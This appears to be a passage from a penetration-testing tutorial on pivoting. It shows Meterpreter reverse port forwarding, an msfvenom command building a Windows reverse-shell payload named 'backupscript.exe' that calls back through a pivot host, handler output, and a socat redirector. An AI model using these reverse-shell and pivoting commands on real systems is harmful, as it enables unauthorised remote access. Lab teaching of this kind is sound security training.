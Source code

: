 Reverse  port forwarding can also be accomplished using Meterpreter's `portfwd` module,  where you might want to listen on a specific port on the compromised server and forward all incoming shells from the Ubuntu server to our attack host.

We will start a listener on a new port on our attack host for Windows and request the Ubuntu server to forward all requests received to the Ubuntu server on port `1234` to our listener on port `8081`.

```shell-session
meterpreter > portfwd add -R -l 8081 -p 1234 -L 192.64.166.3
```

**1.** Configuring & Starting multi/handler

```shell-session
meterpreter > set payload windows/x64/meterpreter/reverse_tcp
set LPORT 8081 
set LHOST 0.0.0.0 
run
```

We can now create a reverse shell payload that will send a connection back to our Ubuntu server on `192.182.147.2`:`1234` when executed on our Windows host. Once our Ubuntu server receives this connection, it will forward that to `attack host's ip`:`8081` that we configured.

```shell-session
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.182.147.2 -f exe -o backupscript.exe LPORT=1234
```

Finally, if we execute our payload on the Windows host, we should be able to receive a shell from Windows pivoted via the Ubuntu server.

```shell-session
# #### Establishing the Meterpreter session
[*] Started reverse TCP handler on 0.0.0.0:8081 
[*] Sending stage (200262 bytes) to 192.64.166.3
[*] Meterpreter session 2 opened (192.64.166.3:8081 -> 192.64.166.3:40173 ) at 2022-03-04 15:26:14 -0500

 
meterpreter > shell
```

## Socat 

### Socat Redirection with a Reverse Shell

[Socat](https://linux.die.net/man/1/socat) is a bidirectional relay tool that can create pipe sockets between `2` independent network channels without needing to use SSH tunneling.

It acts as a redirector that can listen on one host and port and forward that data to another IP address and port.

Starting Socat Listener in our attacker machine:

```shell-session
# Socat will listen on localhost on port 8080 and forward all the traffic to port 80 on our attack host (192.64.166.3).
socat TCP4-LISTEN:8080,fork TCP4:192.64.166.3:80
# the fork option tells socat to create a new child process for each incoming connection.
```
